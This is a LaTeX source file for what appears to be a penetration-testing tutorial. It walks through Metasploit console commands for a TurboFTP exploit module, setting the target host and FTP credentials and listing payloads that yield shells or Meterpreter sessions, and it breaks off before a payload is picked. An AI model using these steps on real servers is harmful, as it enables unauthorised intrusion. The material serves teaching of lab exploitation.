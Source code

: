 \documentclass{assets/ipesethesis}
\newenvironment{Shaded}{\begin{snugshade}}{\end{snugshade}}
\newcommand{\ExtensionTok}[1]{#1}
\newcommand{\KeywordTok}[1]{\textcolor[rgb]{0.13,0.29,0.53}{\textbf{#1}}}
\newcommand{\NormalTok}[1]{#1}
\newcommand{\OperatorTok}[1]{\textcolor[rgb]{0.81,0.36,0.00}{\textbf{#1}}}
\providecommand{\tightlist}{%
  \setlength{\itemsep}{0pt}\setlength{\parskip}{0pt}}
\begin{document}
The command \textbf{show options} gives you the informations needed to use the exploit and the \textbf{set} command is needed to configure those options.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{msf6}\NormalTok{ exploit(turboftp_port) }\OperatorTok{>} \ExtensionTok{show}\NormalTok{ options}
\ExtensionTok{msf6}\NormalTok{ exploit(turboftp_port) }\OperatorTok{>} \KeywordTok{set} \ExtensionTok{RHOST}\NormalTok{ 10.10.10.5}
\ExtensionTok{msf6}\NormalTok{ exploit(turboftp_port) }\OperatorTok{>} \KeywordTok{set} \ExtensionTok{FTPUSER}\NormalTok{ god}
\ExtensionTok{msf6}\NormalTok{ exploit(turboftp_port) }\OperatorTok{>} \KeywordTok{set} \ExtensionTok{FTPASS}\NormalTok{ S@v3TH3Qu33n!}
\end{Highlighting}
\end{Shaded}

\hypertarget{run-the-exploit}{%
\section*{Run the exploit}\label{run-the-exploit}}

To run an exploit, a \textbf{Payload} is needed. The payload is used to get:

\begin{itemize}
\tightlist
\item
  a shell\\
\item
  a vnc or rdp connection\\
\item
  a \textbf{Meterpreter shell}\\
\item
  the execution of an attacker-supplied application
\end{itemize}

To list the payloads of the specific choosen exploit, use the following command

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{msf6}\NormalTok{ exploit(turboftp_port) }\OperatorTok{>} \ExtensionTok{show}\NormalTok{ payloads}
\end{Highlighting}
\end{Shaded}

You can then choose the payload you want with the \textbf{set} command:
\end{document}

